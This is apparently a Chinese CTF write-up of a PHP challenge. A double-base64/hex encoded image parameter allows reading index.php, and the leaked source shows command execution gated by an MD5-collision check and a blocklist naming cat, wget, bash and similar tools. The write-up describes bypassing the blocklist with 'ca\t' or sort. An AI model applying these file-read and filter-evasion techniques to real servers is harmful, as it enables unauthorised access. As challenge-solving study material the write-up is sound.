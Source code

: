 # 知识点：

# 1.MD5碰撞

# 2.文件读取

# 3.cat 禁用绕过（ca\t,sort)



# 1.img后面的字符串，两次base64解码，然后再hex解码得到图片名。

推测存在文件包含。将image=后面的文件名加密成base64字符串。

![](images/1E4FBAEAE3434F1C890227C65E325E55clipboard.png)



![](images/C7F1BE2ED97B4DEEA79DA2DA00B29335clipboard.png)



# 2.加密index.php。尝试读取index.php的源码

加密脚本：

```javascript
# python3
import binascii
import base64
filename = input().encode(encoding='utf-8')
hex = binascii.b2a_hex(filename)
base1 = base64.b64encode(hex)
base2 = base64.b64encode(base1)
print(base2.decode())
```



# 3.读取到index.php的内容

![](images/EEF3C5CF92954E67A0E8594DA7255DA4clipboard.png)

将base64密文解码即可：

```javascript
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd']))
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixiï½ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
    body{
        background:url(./bj.png)  no-repeat center center;
        background-size:cover;
        background-attachment:fixed;
        background-color:#CCCCCC;
    }
</style>
<body>
</body>
</html>
```



## 4.代码存在命令执行

## 1.a!==b,md5(a)=md5(b)。可以使用MD5碰撞绕过。

## 2.正则存在两个绕过方式：

## cat可以使用：ca/t和sort替换。

```javascript
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
```



# 5.读取flag

![](images/71320612208C49E5B98777484502065Fclipboard.png)



